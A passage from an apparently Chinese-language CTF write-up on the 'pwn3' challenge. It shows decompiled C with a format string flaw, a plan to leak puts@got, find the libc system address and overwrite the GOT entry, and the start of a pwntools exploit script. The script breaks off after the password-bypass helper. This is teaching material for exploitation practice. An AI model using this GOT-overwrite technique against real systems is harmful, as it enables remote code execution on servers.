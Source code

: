 ```C
    {
      strcpy(&dest, i + 0x28);
      return printf(&dest);
    }
  }
  return printf(&dest);
}
```

#### 漏洞利用思路

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

#### 漏洞利用程序

如下

```python
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


def show_dir():
    sh.sendline('dir')


tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


## password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)

```